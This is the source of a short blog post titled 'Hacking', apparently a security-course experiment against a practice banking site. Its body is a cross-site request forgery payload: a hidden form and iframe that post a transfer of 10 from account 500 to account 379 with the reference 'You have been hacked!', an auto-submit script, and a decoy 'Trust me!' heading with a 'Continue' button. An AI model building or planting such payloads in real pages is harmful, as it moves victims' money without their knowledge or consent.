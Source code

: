 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<iframe style="display:none" name="csrf-frame"></iframe>
<form action="https://robthebank.soton.ac.uk/transactions/transfer" target="csrf-frame" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][from]" class="form-control" type="hiden" id="TransactionFrom" required="required" value="500">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked!">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="10">
	<!--<script>document.getElementById("TransactionTransferForm").submit()</script>-->
</div>
<script>document.getElementById("csrf-form").submit()</script>

<input class="btn btn-primary" type="submit" value="Continue">
</form>


	

****
